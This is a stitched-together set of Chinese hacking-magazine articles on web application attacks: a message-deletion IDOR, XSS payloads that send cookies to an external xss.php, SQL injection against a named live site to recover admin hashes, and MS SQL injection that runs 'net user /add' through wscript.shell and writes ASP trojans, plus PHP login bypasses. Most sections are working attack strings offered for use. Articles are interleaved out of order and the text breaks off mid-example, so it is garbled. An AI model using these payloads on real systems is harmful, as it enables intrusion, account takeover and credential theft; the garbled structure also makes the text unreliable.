
这个漏洞存在于 message.php 文件。看以下代码：

```php
133 if ($action=='del') {
134     $db->update("DELETE FROM ot_msg WHERE mid='$mid'");
135     showmsg('成功删除一条信息!');
136 }
```

它是直接判断 Action 参数是否为 Del，是则删除字段变量为 Mid 的消息，并没有检查消息是否是本人的，这样就天下大乱了。不信我们来看看，我们提交：

```text
http://localhost/ofstar/message.php?action=del&mid=1
```

这样直接就删除了 Mid 为 1 的消息。如果有一个 HTTP 扫描器，把这些 URL 按顺序作成列表，导入扫描，不出半分钟，整个论坛的短消息都会被删除，管理员除了查看 Web 服务器的日志，根本不知道是怎么被删除的。

### 2. 明显的跨站脚本攻击漏洞

隐藏的跨站漏洞就没有时间去看了，这是最明显的：帖子标签转换。看 bbscode.php 文件的代码：

```php
42 if ($allow['pic']) {
43     $message = preg_replace('/\[img\](.+?)\[\/img\]/eis', 'cvpic("\\1")', $message);
44 } else {
```

这些代码是转换 [img][/img] 的贴图标签的，其实大多数人都是这样写的，这样写也并没有错，但是如果缺乏了必要的字符检查，那么就是一个安全隐患了。我们提交：

```text
[img]javascript:alert(document.cookie)[/img]
[img]javascript:window.open('http://127.0.0.1/xss.php?'+document.cookie)[/img]
```

就可以获取任何浏览帖子会员的 Cookie 了。还有个人资料，如果系统允许调用远程的图片作为头像，那么也是一个可以跨站的地方，直接在图像位置那里输入下面的代码实现就能跨站攻击了：

```text
javascript:alert(document.cookie)
javascript:window.open(&#39;http://127.0.0.1/xss.php?&#39;+document.cookie)
```

（注意这里要把单引号换成 &#39;，否则不能提交成功）

## 3. 危害更大的攻击

既然上面解析 `[img][/img]` 没有问题，那我们还可以进行更进一步的攻击，用 `document.write()` 可以写出很多具有超强攻击性的代码，比如写一个格式化的代码，或是写入 `<iframe>` 标签，或者写入木马，呵呵。有了这个问题，可以说支持 HTML 代码了，我们可以这样提交：

```html
[img]javascript:document.write('</iframe><src="http://4ngel.net/" width=200 height=200></iframe>')[/img]
```

懂 HTML 的人都知道吧，这样就写入了一个内嵌框架，打开的页面是我的站点，但是如果哪位居心叵测的朋友让它打开的是一个带有恶意代码或木马的页面，吃亏的不就是浏览者吗？开发者心痛可不知道心疼。

## 4. 邮件炸弹

这个漏洞不仅危害到自己，也危害到别人的邮件服务器。看 `sendermail.php` 文件，整个文件没有设置邮件发送时间间隔，虽然采用 POST 取值，但还是可以快速发送。只要愿意，一分钟发 60 封不是问题。我做过测试，在发送完毕以后，我继续刷新，一分钟的时间，我的信箱就多了 48 封邮件，我手都酸了。有哪位朋友愿意手工突破我的记录？嘿嘿。

## 5. Cookie 欺骗

由于是在网吧检查的代码，所以并没有条件测试，在前台的 `global.php` 文件里，有一句代码是这样写的：

```php
$ofstarid=$_COOKIE['ofstarid'];
```

也就是说，`$ofstarid` 这个变量是直接获取 Cookie 里面的 `ofstarid`，没有做任何过滤，这里就为以后的种种攻击埋下伏笔，不信我们看 `profile.php` 文件：

```php
86. if ($action=='modify') {
238 $db->update("UPDATE of_members SET password='$ofstardb[password]', email='$ofstardb[email]', honor='$achonor', publicmail='$ofstardb[publicmail]', icon='$ofstardb[icon]', gender='$ofstardb[gender]', signature='$ofstardb[signature]', introduce='$ofstardb[introduce]', oicq='$ofstardb[oicq]', icq='$ofstardb[icq]', site='$ofstardb[site]'
```

```php
location='$ofstardb[location]', bday='$ofstardb[bday]', receivemail='$ofstardb[receivemail]', signchange='$ofstardb[signchange]' WHERE username='$ofstarid'
```

更新用户信息的时候，就直接用刚才获取的 `$ofstarid` 作为修改条件。众所周知，Cookie 是可以修改的，也就是说当我们修改了我们本地 Cookie 里的 `$ofstarid` 变量后，就可以欺骗程序修改其他用户的资料了。熟悉这方面攻击的朋友一定知道我说的什么吧？

从整个 Ofstar 论坛的代码来看，还有很多文件是直接用 Cookie 的值作为 SQL 语句的条件的，如果真的欺骗成功，那么我们可以做的事实在是太多了。大家有兴趣可以自己去研究，这种问题点到为止，否则利用成功那后果真是不堪设想。

## 6. 暴露 Web 路径

最近的暴库技术、通过数据库备份制造 WebShell 等技术都和服务器绝对路径有关，而 Ofstar 论坛就恰好有泄露绝对路径的漏洞，危险啊！来看 `job.php` 文件：

```php
129. elseif ($action=='favor') {
182 if (in_array($tid, $db[$i], $delid)) {
```

浏览收藏夹的时候，当删除一些记录的时候，程序运行到 182 行，由于 `in_array()` 里面要使用两个变量，如果我们不选择记录而直接执行更新操作，也就是少提交了一个变量，这时候，在页面顶部就会出现下面的错误：

```text
Warning: in_array(): Wrong datatype for second argument in F:\www\Ofstar\job.php on line 182
```

Web 路径就老老实实地反馈给我们了！可利用的东西就多了。

好了，大体漏洞分析和利用就写到这里了，总体来说这个论坛还算不错，代码写作风格上比较规范、大气，修补漏洞比较容易。看来编写人员基本安全意识还是到位的，至少给自己留了很大的修补漏洞的空间，相信这个论坛在不久后的将来一定会成为一个非常优秀的论坛的！

（具体漏洞防范方法请看本刊相关文章。）

# 小记入侵《黑客防线》

## 从计划到失败全过程


文／安全天使·angel

## 前言

> 一天使哥（wtf）发我约一篇入侵实例的文章，这可苦了我，我所有测试都是在本机搭建的测试环境。安全、快速，长这么大我没入侵过我所在的高中，而且还是在和网管熟悉的情况下；所以我极其缺乏实战经验，说不定只会用工具的“高手”都比我厉害。唉，但 wtf 老大开口，没有办法啊，硬着头皮上吧——目标就定为《黑客防线》里面的老毒、pig、j、脚本小子这些编辑都是我很要好的朋友，也算是帮朋友检测出点漏洞了（不带商业色彩！）

## 踩点

先来简单地探测一下，由于是网吧，我也懒得去下载什么工具扫描了，相信扫描主机肯定也不会有什么结果，老毒他们可不是吃素的。原来早知道黑防的站点用的是动网文章系统，脚本方面我可熟悉了，我觉得动网文章系统是最简洁最实用的 ASP 文章系统。以前我只用它，据我所知，即使是最新的动网文章 3.4 版，也有下面的几个文件存在变量未过滤漏洞：

WebAdmin 权限，95% 的情况如下，5% 的情况不能：
- 数据库的表名被改成乱七八糟；
- 密码加了密；
- 后台入口文件和验证文件被改成乱七八糟。

## 计划

回学校了，决定第二天再来，因为那时小编们都在睡觉呢，呵呵。我得计划一下入侵的步骤和处理那些可能出现的 5% 的异常情况。首先用 wawa 写的动网文章 Exploits 来跑账号及密码，有中文的话就手动猜，也不用多久。想起以前有人说黑防里面的人都挺厉害，但是小编们一定非常忙，只要是涉及源代码的修改，他们都不太可能做完吧？

还是老习惯，在网上搭建一个站点，采用动网文章，而且一个洞也不修补。把表名改成乱七八糟的，再把 `admin.asp` 和 `Chkadmin.asp` 文件删除，这样确保任何人和工具也不能猜到表名并登录。

准备好以后，就跟老毒说：“有一个文章系统我怎么猜都猜不到表名和后台入口，帮我猜下吧，成功了我写成文章投稿。”老毒一般都很热心的，肯定会很乐意地帮忙啦。等他说：“不行了，猜不出。”我就可以查看 Web 日志，把他提交的 URL 做成列表。由于他自己在管理黑防的站点，所以很大可能会拿黑防的情况来猜，即使没有结果那应该也相差无几的，我自己再扩充一下列表，就可以拿 X-scan 来扫 CGI 了，成功率就非常高了。

如果顺利得到用户，就可以用来试他们各自的论坛账号、@hacker.com.cn 邮箱等等，如果得到邮箱权限，那再进一步社会工程就方便多了。实在不行，最坏的打算就是从黑防服务器的同一网段的脆弱主机入手了！这几天绿盟不就是被这样的方法黑了一次吗？嘿嘿。

计划完毕就可以睡觉咯，呼噜……

```text
default.asp
// classid 变量未过滤
index.asp
// classid 和 Nclassid 变量未过滤
js.asp
// 同上
ru_query.asp
// 同上
list.asp
// id 变量未过滤
prnpage.asp
// 同上

主要测试：提交下面的 URL：
default.asp?classid=2'
// 500 错误，结论：漏洞存在
index.asp?classid=2'
index.asp?nclassid=2'
// 500 错误，结论：漏洞存在
js.asp?classid=2'
js.asp?nclassid=2'
// 500 错误，结论：漏洞存在
ru_query.asp?action=title&keyword=angel&classid=2'
ru_query.asp?action=title&keyword=angel&classid=2&nclassid=2'
// 500 错误，结论：漏洞存在
list.asp?id=2'
// 提示无效，漏洞不存在
prnpage.asp?id=2'
// 文件不存在
```

简单的探测结束了，我有 95% 的把握获得 WebAdmin 权限。

## 轻松突破动网下载积分限制

文／小金哥


动网可是一个好的论坛，使用的人多了去了，可它就像 Windows 一样，漏洞也是接二连三地出来。这不，一不小心就发现动网下载的积分限制也可以突破，各位使用者可要注意了，不要以为把重要文件上传后，加上积分限制就没事了，别人同样可以下载哦！

问题出在 `show.asp` 中：

```asp
if request("username")<>"" then
    rsearch=rsearch&" and "&"F_Username='"&checkStr(request("username"))&"'"
end if
```

很明显，程序只对 `username` 做了常规检查（即用 `checkStr=replace(str,"'","''")` 去掉了注入漏洞），下面就直接用语句查询数据了：

```asp
set rs=conn.execute("select * from [DV_Upfile] where F_Filename<>'' "&rsearch&" order by F_ID desc")
```

`&rsearch&` 没有再做任何权限检查，这样我们就可以用别人的用户名来查看别人上传的文件，即使有下载积分限制，也能跳过了——还有更大的问题，即用户名为空，则将显示所有已上传的文件。

在这里，我们用一个黑客类站点来做范例。首先登录论坛，依次点击（具体版块名，可根据实际情况变动）：“系统攻击 Exploits 专区”→“Serv-U 5.0.0.4 最新攻击包！”，刚想下载却弹出提示“此内容要求积分达到 1500 以上才可以浏览”，晕，我们可不能就这样不下载了，毕竟还是好东东嘛！看我们怎么操作的：

我们先记住发帖的人：root，移动鼠标到“用户控制面板”，点击“个人文件管理”，再点击“新增文件库”右边的“个人展区”，把“用户查询”前的用户改为 root，单击“用户查询”，哈哈，看到了吗？root 上传的文件全部显示出来了，想要哪个程序，赶快下载吧！

## 实施

第二天没有事情做，就去提前和逢源一起实施我的计划了。先看了看默认的后台 `admin.asp` 存在，可以省掉社会工程得后台入口的步骤，然后确定一下表名有没有被修改。提交（下文代码 `%20` 代表空格）：

```text
http://hacker.com.cn/article/is.asp?classid=-4%2'or%200<(select%20count(*)%20from%20admin)
```

返回 500 错误，改了列表？不会吧？再看：

`http://www.hacker.com.cn/article/`

500 错误，完了，看来被发现了，人家正在修补代码呢！想了半天，思路还没开始就被老毒给扼杀在摇篮里了！毒啊毒，你好毒啊！呜呜……

## 失败原因分析

现在分析如何被发现的。由于黑防使用的是自己的服务器，所以我们估计有 IDS 或者防火墙，以前听某位高人说过 IDS 可以检测进站的特定字符，发现了就报警或者拆分之类的，比如 `select`、`insert`、`update` 等，刚才我就提交了带 `select` 的 URL。估计老毒是发现以后立即检查 Web 日志，找到刚才我们提交的几个文件，修补了其中存在的安全隐患。后来一问老毒果然是这样，他还叫臭要饭的这个家伙帮忙一起修补漏洞，砸了我的饭碗，毒啊毒啊！

## 后记

整个过程除了前面我们涉及到的脚本技术外，还涉及到了老毒那边的入侵检测技术。就是因为他们检测得及时，我才没有得手。黑防的小编们又可以把这部分入侵检测技术写成文章了，相信挺实用的。

本文所说的技术够老的，只是其中计划的社会工程有点意思，写出来给大家开拓一下思路而已，先把这篇给老毒吧。估计得被骂死！呜呜……

其实黑防是国内很有影响力的安全杂志，有漏洞大家可能觉得奇怪。其实道理和绿盟被黑都差不多，因为小编们大多的精力都放在给大家办好杂志了，再加上又提供了免费的攻防实验室，花在站点上的精力就相对少了，站点的安全就疏忽了一些，这很正常。希望本文能给老毒他们敲个警钟。在此，angel 我真诚地对神交已久的黑防的所有编辑朋友们致以崇高的敬意，祝他们工作顺利，也祝黑防步步高升——稿费毒哥可得多给点哦！嘿嘿。

# 动网／动力文章系统

## 打印页面注入漏洞


◎ 文／baiker [http://zcker.cnsu.org]

晚上没事在网上闲逛，看到华夏黑客同盟有一个关于 Serv-U 最新的溢出动画，想着看，于是找到下载页面一看……想哭，只给会员才可以下载的。不能吧，既然说要就一定要把它下载下来。于是到处看看，发现用的是动力的整站程序，拿出工具扫，什么都没扫到，网上公布的漏洞，站长早已把它补上了，没办法，再找找别的吧。看到网站上有个打印此文的功能，试试。看到 `Article_Print.asp?ArticleID=4`，测试一下，提交：

```text
http://www.77169.com/Article_Print.asp?ArticleID=4+
```

返回错误信息，接着提交：

```text
http://www.77169.com/Article_Print.asp?ArticleID=4-
```

页面正常返回，再提交：

```text
http://www.77169.com/Article_Print.asp?ArticleID=4 and 1=1
```

页面正常返回：

```text
http://www.77169.com/Article_Print.asp?ArticleID=4 and 1=2
```

返回找不到该文章。

看来怪偶没有注意到这个文件的问题哦！有了上面的条件，基本上就可以断定这个页面存在 SQL 注入漏洞了，下面我们就开始注入了，和别的 SQL 注入一样，这里就不多废话了，把关键的几个 URL 提炼出来给大家：

猜管理员账号表：

```text
http://www.77169.com/Article_Print.asp?ArticleID=4 and exists (select * from admin)
```

成功返回，再猜管理员表中是否有一个 `id` 字段：

```text
http://www.77169.com/Article_Print.asp?ArticleID=4 and exists (select id from admin)
```

OK，页面返回正常，说明他的 `admin` 表中有个 `id` 的字段，再猜出有 `username`、`password` 字段，下面来猜他的管理员的 `id` 值：`and exists (select id from admin where id=1)`，意思是看看他的 `admin` 表中是否有一个 `id=1` 的值。返回正常的页面，说明猜对了，下面来猜他的管理员的名字长度：`and exists (select id from admin where len(username)<6 and id=1)`，返回了正常的页面，名字不是太长，下面就是体力活了，大体东西没什么好讲的，黑防原来讲过很多次了，这里就提点一下吧。

```text
猜用户名字段长度：and 1=(select min(id) from admin where len(username)>5)
```

```text
密码字段长度：and 1=(select min(id) from admin where len(password)<10)

猜用户名：and 1=(select min(id) from admin where mid(username,1,1)='a')

猜密码的 ASCII 值：and 1=(select min(id) from admin where len(password)=16)
```

正常返回。

到这里我就有点高兴不起来了，因为很有可能管理员的密码是 MD5 加密的。如果密码是数字的话还好办，用工具暴力破解几分钟就可以破出来，但是如果是数字加字母的呢？能把人累死——终于把管理员的用户名和密码都破出来了，用户名：admin，密码还真是 MD5：`ad901c854c52987b`，郁闷。

在发现动力系统的漏洞以后，动网文章系统是否也存在同样的漏洞呢？于是就到网上随便搜索一下，随便找一个测试一下，结果让我大吃一惊——同样存在这样的漏洞！而且动网文章系统比动力系统危险多了，因为动力的密码是经过 MD5 加密的，而动网文章系统的密码是明文显示的！

当天晚上，我就把这个漏洞用 QQ 通知了站长，没想到他居然告诉我说那个 Admin 账号是他故意加的，没有权限！晕。不过现在 80% 的动力系统都存在打印页面 SQL 注入的漏洞，希望各站站长注意，这篇文章主要是为了提醒那些网站的管理员，一定要了解自己的站，把不要的东西，能删的全给它删了，我自己的站就是动力系统的，不过打印页面我早已经把它删了哦，你呢？

> 接 11 页

木马文件。现在一个功能强大、制作简单的网页木马又在你的手上诞生了！只要别人运行你的 ICM，你的后门就直接在他的机器上开始执行了！等着收网吧！

好了，有关网页木马制作的方法我们就讲到这里，如果你有什么问题可以到《黑客防线》的官方论坛找血汉联系！（附：所有的工具和相关教程我都打包好了给大家，大家可以在光盘中找到。）

**免责声明：** 本文所有的方法只做技术研讨，如果你要是利用它来做一些非法的事，所造成的一切后果均与血汉和《黑客防线》无关！

- 难度等级：高
- 适合读者：脚本入侵爱好者
- 前置知识：SQL 基本语法

**脚本小子：** 相信不少读者已经对 SQL Injection 很熟悉了，不过这篇文章有新花样了，使用了 MS SQL 一些未公开使用方法的函数进行渗透，而且一些原来没有公开的技巧也已经在本文中有所提到，希望大家能真正掌握 SQL 注入的高级技术，本期的几篇文章一定不会让喜欢脚本的朋友失望哦！

# 榨干 MS SQL

## 最后一滴血


文／amanl

风云变换的网络，网络安全让人们不得不关注。数据库，让我们联想到强大的 ORACLE、MS SQL，可惜微软的漏洞太多，对系统管理员来说功能强大的 SQL 是好东西，但是如果不重视安全，那 SQL 就是入侵者们喜欢的东西了。好！今天就用 SQL Injection 来让 MS SQL 为我们好好地工作。

相信大家对 SQL 暴库、暴表、暴字段都已掌握，在这里就不多说这方面了，不熟悉的朋友可以翻看前几期黑防的《跨库查询你想怎么玩》，要领已经讲得很清楚了。

> （下文的测试全部在真实平台上进行，由于测试站点比较知名，在这里隐去它的详细信息！）

MS SQL 内置函数介绍：

| 函数 | 说明 |
|---|---|
| @@VERSION | 获得 Windows 的版本号、MS SQL 的版本号、补丁。 |
| User_name() | 得到当前系统的连接用户 |
| Db_name() | 得到当前连接的数据库 |
| HOST_NAME() | 得到当前主机的名称 |

这些信息有助我们对系统进行简单的了解，好，下面我们就开始吧！

```text
语句：http://www.xxx.com/list.asp?classid=1'
返回信息：Microsoft OLE DB Provider for SQL Server 错误 '80040e14'
字符串 'Order By id DESC' 之前有未闭合的引号。
/list.asp，行 290
```

从这里未闭合的引号（`'`），我们可以确定存在 SQL Injection。发现存在漏洞当然接着走了，利用以上介绍的函数为我们工作：

```text
语句：http://www.xxx.com/list.asp?classid=1' and 0<>(select @@version)--
返回：
Microsoft OLE DB Provider for SQL Server 错误 '80040e07'
将 nvarchar 值 'Microsoft SQL Server 2000 - 8.00.760 ...' 转换为数据类型为 int 的列时发生语法错误。
```

```text
X86) Dec 17 2002 14:22:05 Copyright (c.) 1988-2003 Microsoft Corporation Standard Edition on Windows NT 5.0 (Build 2195: Service Pack 4)' 转换为数据类型为 int 的列时发生语法错误。
/list.asp，行 290
```

相关的信息出来了，MS SQL Server 2000 + SP3，Windows 2000 + SP4，从 MS SQL Server 后面的 `8.00.760` 可看出是 SP3 补丁。看了服务器的信息，接下来应该了解数据库的权限：

```text
语句：http://www.xxx.com/list.asp?classid=1 and user_name()='dbo'
返回：正常返回的信息
```

确定权限是 DBO。从表面 DBO 权限的连接用户经常是涉及 SYSADMIN 服务器角色成员。可说明数据库服务器角色成员组默认是在每个数据库增加一个 DBO 用户。返回原理和 `1=1`、`1=2` 相似，这里只是权限测试，我们也把它测出来看看：

```text
语句：http://www.xxx.com/list.asp?classid=1 and 0<>(select user_name())--
返回：Microsoft OLE DB Provider for SQL Server 错误 '80040e07'
将 nvarchar 值 'dbo' 转换为数据类型为 int 的列时发生语法错误。
/list.asp，行 290
```

说明连接数据库的用户权限很高，可能是服务器角色组中的成员。要确定是否是服务器角色组，使用 `use model` 来测试，连接默认的 MODEL 数据库一般只有默认服务器角色组才会添加数据库的使用权限。

```text
语句：http://www.xxx.com/list.asp?classid=1; use model--
返回：Microsoft OLE DB Provider for ODBC Drivers 错误 '80004005'
[Microsoft][ODBC SQL Server Driver][SQL Server]服务器用户 'xx用户' 不是数据库 'model' 中的有效用户。
```

说明没有权限。如果正常返回信息，或者出现 OLE 有多个连接相冲突的信息，可以确认连接用户的权限是服务器角色组中的成员，再继续：

```
语句：http://www.xxx.com/list.asp?classid=1 and 0<>(select db_name())

返回：Microsoft OLE DB Provider for SQL Server 错误 80040e07

将 nvarchar 值 'xxxIMGsvs' 转换为数据类型为 int 的列时发生语法错误。

/list.asp，行 290
```

这样就可以暴出当前的数据库。得到这么高权限的数据库连接成员，我们当然想直接得到 WebShell，或是直接拿到 NT ADMIN。NT ADMIN 取决于当前服务器的配置，如果配置不合理的服务器，我们就可以直接拿 NT ADMIN 了。拿 NT ADMIN 要用到如下 MSSQL 内置存储过程：

- `sp_OACreate`（危害很大，但是需要有 `SYSADMINS` 权限才可以使用）
- `sp_OAGetErrorInfo`
- `sp_OAGetProperty`
- `sp_OAMethod`
- `sp_OASetProperty`
- `sp_SetProperty`
- `sp_OAStop`

以下介绍经常使用的存储过程的方法，没有介绍的请翻阅 MS SQL 帮助，里面有很详细的说明。用法：

```
Sp_OACreate（创建 OLE 对象实例）

sp_OACreate progid, clsid|objecttoken OUTPUT [, context]

如：sp_OACreate 'scripting.filesystemobject', @o OUT
```

注意 `OUTPUT` 是输出，创建一个 `FILESYSTEMOBJECT` 实例对象。（详细说明请看 MS SQL 帮助）。

```
SP_OACreate 调用 OACreate 创建的对象
```

调用 OLE 对象的方法。语法：

```
sp_OAMethod objecttoken, methodname, [returnvalue OUTPUT], [ @parametername = ] parameter [ OUTPUT ], [ n ]

参数：

- Objecttoken：先前用 sp_OACreate 创建的 OLE 对象令牌。
- Methodname：要调用的 OLE 对象的方法名。
- returnvalue OUTPUT：该 OLE 对象的方法的返回值；如果指定，那么它必须是适当数据类型的局部变量。
```

由于 MS SQL 一次可以执行多语句，使得我们有机会使用更多的语句。

```
语句：http://www.xxx.com/list.asp?classid=1;DECLARE @shell INT EXEC SP_OACREATE 'wscript.shell', @shell OUTPUT EXEC SP_OAMETHOD @shell, 'run', null, 'c:\WINNT\system32\cmd.exe /c net user cntest chinatest /add'

正常返回
```

如果主机上 Shell 存在的话，那将在服务器上创建一个 `cntest` 的用户！看样子是直接创建用户成功了，语句后再加个 `net localgroup administrators cntest /add` 加到管理组中。如果对方的机子开着 3389 端口或 IPC 的话，那接下来的事就不用我多说了。

遇到专业型主机，只开一个 80 端口，那应该怎么办呢？当然，我们还是可以先拿到 WebShell，再慢慢渗透。由于权限高，我们可以先建表，写入 ASP 木马的数据，再通过 `MAKEWEBTASK` 得到 WebShell。手工写入的程序太过于繁琐，上传 WebShell 最大的问题还是网页目录。现在网上已经有现成的通过 `BACKUP` 和 `MAKEWEBTASK` 的工具得到 WebShell 了。以下推荐获取网页路径、通过存储过程达到对注册表读取的方法：

利用内置存储过程 `xp_regread`（读取注册表键值，权限 `public`），用法：

```
xp_regread [@rootkey=] 'rootkey', [@key=] 'key', [,@value_name=] 'value_name', [,@value=] @value OUTPUT
```

利用 `OUTPUT` 赋值给变量，再写入相应的表中。

```
语句：http://www.xxx.com/list.asp?classid=1; CREATE TABLE newtable(id int IDENTITY(1,1), paths varchar(500)); Declare @test varchar(20); exec master..xp_regread @rootkey='HKEY_LOCAL_MACHINE', @key='SYSTEM\CurrentControlSet\Services\W3SVC\Parameters\Virtual Roots', @value_name='/', @value=@test OUTPUT; insert into paths(path) values(@test)
```

IIS 的默认路径在注册表 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W3SVC\Parameters\Virtual Roots` 中，利用爆字段将数据库的值读出来：

```
语句：http://www.xxx.com/list.asp?classid=1 and 0<>(select top 1 paths from newtable)

返回：Microsoft OLE DB Provider for ODBC Drivers 错误 80040e07：

[Microsoft][ODBC SQL Server Driver][SQL Server] 将 varchar 值 'E:\www\' 转换为数据类型为 int 的列时发生语法错误。
```

这说明网页目录在 `E:\www`，接下来也可以利用 FSO 直接写入 ASP 木马（提示：必须拥有 `SYSADMIN`）。

## 浅谈 PHP+MySQL

## ——Okphp BBS v1.3 代码安全分析

注射语句构造

◎ 文／黑嘿嘿、→Super·Hei

由于 PHP 和 MYSQL 本身的原因，PHP+MYSQL 的注射要比 ASP 困难，尤其是注射时语句的构造方面更是个难点。本文主要是借对 Okphp BBS v1.3 一些文件的简单分析，来谈谈 php+mysql 注射语句构造方式，希望本文对喜欢 PHP 注入的你有帮助。

**声明：**文章所有提到的“漏洞”，都没有经过测试，可能根本不存在。有心人可以自己测试，其实有没有漏洞并不重要，重要的是分析思路和语句构造。

版本信息：Okphp BBS v1.3 开源版，下载地址 http://www.cncode.com/SoftView.asp?SoftID=1800，下面正式开始漏洞之旅！

```php
$password = md5($password);
$sql = "select id,group_id from $user_table where username='$username' and password='$password'";
$res = sql_query($q, $conn);
$row = sql_fetch_row($res);
```

在 `$q = "select id,group_id from $user_table where username='$username' and password='$password'"` 中，`$username` 和 `$password` 没过滤，很容易就绕过。对于 `select * from $user_table where username='$username' and password='$password'` 这样的语句，构造注入的方法可以利用逻辑运算：`$username=' OR 'a'='a`，`$password=' OR 'a'='a`，相当于 SQL 语句：`select * from $user_table where username='' OR 'a'='a' and password='' OR 'a'='a'`。还有一种是利用 mysql 里的注释语句 `#`、`/*` 把 `$password` 注释掉，`$username=admin'#`（或 `admin'/*`），即：`select * from $user_table where ...`

### 1. admin/login.php 注射导致绕过身份验证漏洞

代码：

```php
$conn=sql_connect($dbhost, $dbuser, $dbpswd, $dbname);
```

在具有一定权限（服务器角色成员组）的前提下，才可使用 FSO 和 FSO 写入：

```sql
http://www.xxx.com/list.asp?class=1;declare @o int,@f int,@t int,@ret int exec sp_oacreate 'scripting.filesystemobject',@o out exec sp_oamethod @o,'createtextfile',@f out,'e:\www\test.asp',1 exec @ret = sp_oamethod @f,'writeline',NULL,'On Error Resume Next'
```

在 `E:\WWW` 下创建一个 `test.asp` 并写入 `On Error Resume Next` 语句：

```sql
http://www.xxx.com/list.asp?classid=1;declare @o int,@f int,@t int,@ret int exec sp_oacreate 'scripting.filesystemobject',@o out exec sp_oamethod @o,'opentextfile',@f out,'e:\www\test.asp',8 exec @ret = sp_oamethod @f,'writeline',NULL,'asp horse...'
```

在 `E:\WWW\test.asp` 增加一行记录，记录为 `asp horse`。整个完整木马可以这样写入（％百分号要用 `%25` 替代写入）。如果得不到网页目录，怎么办呢？前提是你要猜到网站是否使用默认 Web 站点，或者使用域名作为 Web 站点。

`mkwebdir.vbs` 用法：`makewebdir.vbs`，IIS 系统自带的 VBS 管理脚本，详细说明在命令模式下输入 `cscript.exe c:\inetpub\AdminiScript\mkwebdir.vbs`。

```sql
declare @o int exec sp_oacreate 'wscript.shell',@o out exec sp_oamethod @o,'run',NULL,'cscript.exe c:\inetpub\AdminiScripts\mkwebdir.vbs -w "默认Web站点" -v "e" "e:\\"'
```

在默认的 Web 站点下创建一个虚拟目录 `e`，指向 `E:` 盘下。

```sql
declare @o int exec sp_oacreate 'wscript.shell',@o out exec sp_oamethod @o,'run',NULL,'cscript.exe c:\inetpub\AdminiScripts\chaccess.vbs -a W3svc/1/ROOT/e +browse'
```

给虚拟目录 `E` 加上浏览属性，不错吧。给自己开虚拟服务，想那些网页目录路径，头都快破了，这下可给自己一个天开眼了。那传 WebShell 利用 MSSQL 为我们的工作告了一段落了，接下来工作应该由你来。

`username='admin'#' and password='$password'`，相当于：`select * from $user_table where username='admin'`。

在 `admin/login.php` 中，`$q` 语句中的 `$password` 在查询前进行了 md5 加密，所以不可以用构造逻辑运算中的语句绕过。这里我们构造注释语句：

```php
select id,group_id from $user_table where username='admin'#' and password='$password' "
```

相当于：`select id,group_id from $user_table where username='admin'`，效果是只要存在用户名为 `admin` 就成立，查询条件也就满足。如果不知道用户名，只知道对应的 `id`，可以这样构造：`$username=' OR id=1#`，相当于：`select id,group_id from $user_table where username='' OR id=1# and password='$password'`（`#` 后的被注释掉）。

我们接着往下看代码：

```php
if ($row[0]) {
    // if not admin or super moderator
    if ($username != "admin" && (!ereg("(^[8]{3}($|,)", $row[1]))) {
        $login = 0;
    } else {
        $login = 1;
    }
}

// Fail to login
if (!$login) {
    write_log("Moderator-login", "0", "password wrong");
    echo "<script>alert('login failed.');history.go(-1);</script>";
    exit();
}

// Access !
else {
    session_start();
}
```

呵呵，代码中最后只简单通过一个 `$login` 来判断，我们只要用 IE 直接提交 `$login=1` 就可以绕过了！低级错误。

### 2. users/login.php 注射导致绕过身份验证漏洞

代码：

```php
$md5password = md5($password);
$q = "select id,group_id,email from $user_table where username='$username' and password='$md5password'";
$res = sql_query($q, $conn);
$row = sql_fetch_row($res);
```

`$username` 没过滤，利用同 1，注释掉 `and password='$md5password'`，就绕过啦。

### 3. admin/log/list.php 存在任意删除日志记录漏洞

这个好像和 php+mysql 注射无关，随便提一下。okphp 的后台好像写得很马虎，所有文件都没有判断管理员是否已经登录，以至于可以任意访问。我们看 `list.php` 的代码：

```php
$arr = array("del_log", "log_id", "del_id");
get_($arr);

if ($del_log) {
    // 省略……
    if ($log_id) {
        foreach ($log_id as $val) {
            $q = "delete from $log_table where id='$val'";
            $res = sql_query($q, $conn);
            if (!$res) {
                $i++;
            }
        }
    }
} elseif ($del_id) {
    $q = "delete from $log_table where id='$del_id'";
    $res = sql_query($q, $conn);
}
$tpl->setVariable("message", "$i log deleted ok !");
$tpl->setVariable("action", "index.php?action=list_log");
```

看，只简单地用 `get_($arr)` 判断提交的参数，我们只要提交相应的 `$del_log`、`$log_id`、`$del_id`，就会成功删除日志记录了。

### 4. 多个文件对变量没有过滤导致 SQL 注射漏洞

okphp 的作者好像都不喜欢过滤，呵呵，基本上所有的 SQL 语句中的变量都是“赤裸裸”的。具体哪些文件我就不列出来了，请自己看代码。我这里就用 `\forums\list_threads.php` 为例子简单说一下。看 `list_threads.php` 的代码：

```php
$q = "select name,belong,id,moderator,protect,view,type,class,theme_id,topic_num,faq_num,create_num,recovery_num,post_num from $type_table where id='" . $forum_id . "'";
$res = sql_query($q, $conn);
$row = sql_fetch_row($res);
```

变量 `$forum_id` 没有过滤，因为 MySQL 不支持子查询，我们可以利用 `union` 构造语句进行联合查询（要求 MySQL 版本在 4.00 以上）实现跨库操作，我们构造如下。

构造 A：利用 `SELECT * FROM table INTO OUTFILE '/path/file.txt'`（要求 mysql 有 `file` 权限，注意在 Win 系统中要绝对路径，如 `c://path//file.txt`），把所查询的内容输出到 `file.txt`，然后我们可以通过 `http://ip/path/file.txt` 来访问得到查询的结果。上面的我们可以这样构造 `$forum_id`：

`$forum_id=' union select * from user_table into outfile '/path/file.txt'`，即：

```sql
$q = "select name, belong_id, moderator, protect_view, type_class,
theme_id, topic_num, faq_num, cream_num, recovery_num, post_num from
$type_table where id='$forum_id' union select * from user_table
into outfile '/path/file.txt'";
```

上面的办法要求比较苛刻，必须得到 Web 的路径（一般可以通过提交错误的变量使 MySQL 报错而得到），而且 php 的 `magic_gpc=on` 选项使注入中不能出现单引号。如果 `magic_gpc=on`，我们也可以绕过。

构造 B：就像 ASP 跨库查询一样，直接利用 `union select` 构造语句，使返回结果不同来猜解。这种方法可以绕过单引号（`magic_gpc=on`）继续注射，不过在 php 里这种注射相对困难，根据具体的代码而定。具体的语句构造请参考 pinkeyes 的文章《php 注入实例》。下面我就结合 okphp 给个利用“返回结果不同”注射的例子。

### 5. admin/login.php 和 users/login.php 猜解指定用户密码 hash 漏洞

其实这个和漏洞 1 和 2 是同一个，这里单独拿出来，主要是说明语句构造的方法。问题代码同漏洞 1，语句的构造（ps：因为语句本身就是对用户库操作，就没必要用 `union` 了）：

```text
$username=admin' AND LENGTH(password)=6#
```

SQL 语句变成：

```sql
